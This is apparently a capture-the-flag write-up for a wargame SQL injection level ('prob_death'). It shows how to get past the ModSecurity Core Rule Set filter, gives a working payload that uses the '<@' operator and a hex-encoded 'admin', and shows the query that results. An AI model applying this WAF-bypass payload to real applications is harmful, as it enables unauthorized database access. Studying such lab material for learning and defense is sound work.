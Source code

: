 ```yaml
---
custom_edit_url: null
sidebar_position: 34
tags: [SQLi, MOD Security CRS, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a437eb74-eff7-45be-bd3f-86e2c56d7dc3)

We are provided with the SQL query:

```sql
SELECT id FROM prob_death WHERE id='{$_GET[id]}' AND pw=md5('{$_GET[pw]}')
```

In this challenge as well, the Mod Security CRS is being used.

&nbsp;

## MOD Security CRS

The MOD Security Core Rule Set, is a set of regex expressions that Web Application Firewalls can use to filter traffic. In this case, out input is being filtered based on this rule set.

In order to bypass this, we can refer [this](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181)Github issue.

![2](https://github.com/Kunull/Write-ups/assets/110326359/31d7abb4-4869-4388-8db4-c0c69df40d67)

However, we have to modify the payload slightly.

```
-1'<@=1 OR id LIKE 0x61646d696e OR '
```

&nbsp;

If we provide the following URI parameter:

```
?id=-1'<@=1 OR id LIKE 0x61646d696e OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_death WHERE id='-1'<@=1 OR id LIKE 0x61646d696e OR '' AND pw=md5('')
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/b1beb237-820e-4e76-a770-5468e73b2512)
